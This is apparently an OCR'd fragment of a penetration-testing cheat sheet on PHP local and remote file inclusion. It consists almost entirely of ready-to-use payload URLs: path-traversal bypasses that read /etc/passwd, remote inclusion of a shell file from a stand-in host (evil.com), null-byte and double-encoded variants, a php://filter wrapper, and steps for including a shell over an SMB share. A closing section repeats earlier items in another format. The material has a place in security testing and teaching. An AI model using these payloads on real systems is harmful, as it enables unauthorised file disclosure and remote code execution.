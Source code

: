 ### Filter Bypass

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## Remote File Inclusion

> Remote File Inclusion (RFI) is a type of vulnerability that occurs when an application includes a remote file, usually through user input, without properly validating or sanitizing the input.

Remote File Inclusion doesn't work anymore on a default configuration since `allow_url_include` is now disabled since PHP 5.

```ini
allow_url_include = On
```

Most of the filter bypasses from LFI section can be reused for RFI.

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null Byte

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### Double Encoding

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`
### **Basic RFI Exploitation:**
```bash
http://example.com/index.php?page=http://evil.com/shell.txt
```

### **LFI/RFI Bypass Techniques:**
- **Null byte injection:** `page=../../../etc/passwd%00`
- **Double encoding:** `page=%252e%252e%252fetc%252fpasswd`
- **PHP wrappers:** `php://filter/convert.base64-encode/resource=index.php`
